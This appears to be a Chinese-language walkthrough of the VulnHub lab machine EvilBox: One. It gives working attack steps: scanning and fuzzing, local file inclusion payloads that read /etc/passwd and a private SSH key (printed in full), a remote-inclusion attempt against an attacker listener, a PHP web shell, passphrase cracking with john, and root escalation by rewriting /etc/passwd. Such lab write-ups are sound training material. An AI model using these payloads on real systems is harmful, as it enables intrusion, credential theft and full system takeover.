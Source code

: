 靶机地址：[EvilBox: One ~ VulnHub](https://www.vulnhub.com/entry/evilbox-one,736/)
主机发现、端口扫描、服务枚举
```Shell
sudo arp-scan -l
# 或
sudo fping -gaq 192.168.1.1/24
# q键退出
sudo nmap -p- 192.168.1.21
sudo nmap -p22,80 -sV 192.168.1.21
# 22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
# 80/tcp open  http    Apache httpd 2.4.38 ((Debian))
# -A 参数包括-sV 和 其它脚本 结果更详细
sudo nmap -p22,80 -A 192.168.1.21
```
访问Web服务，没啥特别的
Web路径枚举
```Shell
sudo dirsearch -u http://192.168.1.21
# [10:10:26] 200 -   10KB - /index.html
# [10:10:32] 200 -   12B  - /robots.txt
# [10:10:33] 200 -    4B  - /secret/
sudo feroxbuster --url http://192.168.1.21
gobuster dir -u http://192.168.1.21 -w /usr/share/seclists/Discovery/Web-Content/directory-list-1.0.txt -x php,jsp,html,js,txt
```
访问 `/robots.txt` ，内容如下
```
Hello H4x0r
```
试了一下没啥用，再对 `/secret/` 进行路径扫描
```Shell
sudo dirsearch -u http://192.168.1.21/secret/
# 只发现一个index.html
sudo feroxbuster --url http://192.168.1.21/secret/
# 啥都没发现
sudo gobuster dir -u http://192.168.1.21/secret/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-1.0.txt -x php,jsp,html,js,txt
# index.html evil.php
```
似乎只有 `evil.php` 可以利用，需要对其进行参数爆破
可以使用BurpSuite的Intruder，这里使用 `ffuf` ，变量名使用 `seclists` 里的Burp专业版的字典，值使用手动的字典先试试 `v.txt`
```
1
2
3
a
b
c
'
"
(
<
,
;
?
/
%
```
暴破一下试试
```Shell
# -w 指定字典 :多个字典命名区分 -u URL -fs 过滤响应长度为0的
sudo ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:PARAM -w v.txt:VALUE -u http://192.168.1.21/secret/evil.php?PARAM=VALUE -fs 0
```
失败了，尝试一些更可能的参数值
```Shell
sudo ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u http://192.168.1.21/secret/evil.php?FUZZ=../index.html -fs 0
```
发现一个参数：`command` ，
访问 `http://192.168.1.21/secret/evil.php?command=../index.html` ，可能存在文件包含漏洞。再尝试读取其它文件
```
http://192.168.1.21/secret/evil.php?command=../../../../etc/passwd
```
成功读取到了，确实存在目录穿越和文件包含
接下来尝试远程文件包含和PHP包装器
先尝试远程文件包含
```Shell
nc -lp 4444
```
尝试访问
```
http://192.168.1.21/secret/evil.php?command=http://192.168.1.26:4444/exp.php
```
失败了，并没有收到连接请求，可能不存在远程文件包含
再尝试直接使用PHP包装器直接执行负载
```
http://192.168.1.21/secret/evil.php?command=data:text/plain,<?php echo shell_exec("id") ?>
```
还是失败了，再尝试读取源码，使用base64的好处是不会直接执行代码
```
http://192.168.1.21/secret/evil.php?command=php://filter/convert.base64-encode/resource=evil.php
```
得到如下内容
```
PD9waHAKICAgICRmaWxlbmFtZSA9ICRfR0VUWydjb21tYW5kJ107CiAgICBpbmNsdWRlKCRmaWxlbmFtZSk7Cj8+Cg==
```
解码后为
```php
<?php
    $filename = $_GET['command'];
    include($filename);
?>
```
尝试写入文件，内容如下
```php
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
```
对其进行base64编码
```
PD9waHAgZWNobyAnPHByZT4nIC4gc2hlbGxfZXhlYygkX0dFVFsnY21kJ10pIC4gJzwvcHJlPic7Pz4=
```
尝试写入，写入的内容是经过base64编码过的，这里的MTIz解码后就是123
```
http://192.168.1.21/secret/evil.php?command=php://filter/write=convert.base64-decode/resource=test.txt&txt=MTIz
```
写入失败了。
这样的话我们只有读的权限，回到之前目录穿越时获取的信息
```
root:x:0:0:root:/root:/bin/bash
mowree:x:1000:1000:mowree,,,:/home/mowree:/bin/bash
```
尝试SSH远程连接
```Shell
ssh mowree@192.168.1.21 -v
# 输出中包含这样一行
# debug1: Authentications that can continue: publickey,password
```
说明可以通过公钥连接，尝试直接读取密钥
```
http://192.168.1.21/secret/evil.php?command=../../../../home/mowree/.ssh/authorized_keys
```
获取到已经通过认证的公钥
```
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDAXfEfC22Bpq40UDZ8QXeuQa6EVJPmW6BjB4Ud/knShqQ86qCUatKaNlMfdpzKaagEBtlVUYwit68VH5xHV/QIcAzWi+FNw0SB2KTYvS514pkYj2mqrONdu1LQLvgXIqbmV7MPyE2AsGoQrOftpLKLJ8JToaIUCgYsVPHvs9Jy3fka+qLRHb0HjekPOuMiq19OeBeuGViaqILY+w9h19ebZelN8fJKW3mX4mkpM7eH4C46J0cmbK3ztkZuQ9e8Z14yAhcehde+sEHFKVcPS0WkHl61aTQoH/XTky8dHatCUucUATnwjDvUMgrVZ5cTjr4Q4YSvSRSIgpDP2lNNs1B7 mowree@EvilBoxOne
```
再尝试获取目标机器上的私钥
```
http://192.168.1.21/secret/evil.php?command=../../../../home/mowree/.ssh/id_rsa
```
成功获取到私钥
```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,9FB14B3F3D04E90E

uuQm2CFIe/eZT5pNyQ6+K1Uap/FYWcsEklzONt+x4AO6FmjFmR8RUpwMHurmbRC6
hqyoiv8vgpQgQRPYMzJ3QgS9kUCGdgC5+cXlNCST/GKQOS4QMQMUTacjZZ8EJzoe
o7+7tCB8Zk/sW7b8c3m4Cz0CmE5mut8ZyuTnB0SAlGAQfZjqsldugHjZ1t17mldb
+gzWGBUmKTOLO/gcuAZC+Tj+BoGkb2gneiMA85oJX6y/dqq4Ir10Qom+0tOFsuot
b7A9XTubgElslUEm8fGW64kX3x3LtXRsoR12n+krZ6T+IOTzThMWExR1Wxp4Ub/k
HtXTzdvDQBbgBf4h08qyCOxGEaVZHKaV/ynGnOv0zhlZ+z163SjppVPK07H4bdLg
9SC1omYunvJgunMS0ATC8uAWzoQ5Iz5ka0h+NOofUrVtfJZ/OnhtMKW+M948EgnY
zh7Ffq1KlMjZHxnIS3bdcl4MFV0F3Hpx+iDukvyfeeWKuoeUuvzNfVKVPZKqyaJu
rRqnxYW/fzdJm+8XViMQccgQAaZ+Zb2rVW0gyifsEigxShdaT5PGdJFKKVLS+bD1
tHBy6UOhKCn3H8edtXwvZN+9PDGDzUcEpr9xYCLkmH+hcr06ypUtlu9UrePLh/Xs
94KATK4joOIW7O8GnPdKBiI+3Hk0qakL1kyYQVBtMjKTyEM8yRcssGZr/MdVnYWm
VD5pEdAybKBfBG/xVu2CR378BRKzlJkiyqRjXQLoFMVDz3I30RpjbpfYQs2Dm2M7
Mb26wNQW4ff7qe30K/Ixrm7MfkJPzueQlSi94IHXaPvl4vyCoPLW89JzsNDsvG8P
hrkWRpPIwpzKdtMPwQbkPu4ykqgKkYYRmVlfX8oeis3C1hCjqvp3Lth0QDI+7Shr
Fb5w0n0qfDT4o03U1Pun2iqdI4M+iDZUF4S0BD3xA/zp+d98NnGlRqMmJK+StmqR
IIk3DRRkvMxxCm12g2DotRUgT2+mgaZ3nq55eqzXRh0U1P5QfhO+V8WzbVzhP6+R
MtqgW1L0iAgB4CnTIud6DpXQtR9l//9alrXa+4nWcDW2GoKjljxOKNK8jXs58SnS
62LrvcNZVokZjql8Xi7xL0XbEk0gtpItLtX7xAHLFTVZt4UH6csOcwq5vvJAGh69
Q/ikz5XmyQ+wDwQEQDzNeOj9zBh1+1zrdmt0m7hI5WnIJakEM2vqCqluN5CEs4u8
p1ia+meL0JVlLobfnUgxi3Qzm9SF2pifQdePVU4GXGhIOBUf34bts0iEIDf+qx2C
pwxoAe1tMmInlZfR2sKVlIeHIBfHq/hPf2PHvU0cpz7MzfY36x9ufZc5MH2JDT8X
KREAJ3S0pMplP/ZcXjRLOlESQXeUQ2yvb61m+zphg0QjWH131gnaBIhVIj1nLnTa
i99+vYdwe8+8nJq4/WXhkN+VTYXndET2H0fFNTFAqbk2HGy6+6qS/4Q6DVVxTHdp
4Dg2QRnRTjp74dQ1NZ7juucvW7DBFE+CK80dkrr9yFyybVUqBwHrmmQVFGLkS2I/
8kOVjIjFKkGQ4rNRWKVoo/HaRoI/f2G6tbEiOVclUMT8iutAg8S4VA==
-----END RSA PRIVATE KEY-----
```
将私钥写到文件 `id_rsa` 中，并赋予响应权限
```Shell
chmod 600 id_rsa
```
尝试直接通过私钥连接
```Shell
ssh mowree@192.168.1.21 -i id_rsa
```
需要输入密码，随便输几个都失败了
尝试暴破，先找一个字典
```Shell
cp /usr/share/wordlists/rockyou.txt.gz .
gunzip rockyou.txt.gz
```
破解
```Shell
# 格式转换成john可以使用的
python /usr/share/john/ssh2john.py id_rsa > id_rsa.john
# 破解
john id_rsa.john --wordlist=rockyou.txt
```
结果为 `unicorn` 。
再次尝试连接
```Shell
ssh mowree@192.168.1.21 -i id_rsa
```
输入密码后成功连接。
获取第一个flag
```Shell
ls -l
cat user.txt
```
尝试提权
```Shell
sudo -l
# -bash: sudo: orden no encontrada
# 没有不当的配置
find / -perm -u=s -type f -user root -executable ! -group root 2>/dev/null -exec ls -l {} \;
# 没找到可以利用的SUID文件
uname -a
# Linux EvilBoxOne 4.19.0-17-amd64 #1 SMP Debian 4.19.194-3 (2021-07-18) x86_64 GNU/Linux
# 也没找到合适的内核漏洞利用
```
但是当前账号居然对 `/etc/passwd` 有写权限，其中的密码是hash，不能直接用字符串
先生成一个密码密文
```Shell
openssl passwd -1
```
输入两次相同的任意密码
将生成的字符替换到 `/etc/passwd` 中 `root` 用户当前的占位密码 `x`
```Shell
su
# 输入替换后的密码明文
```
成功提权

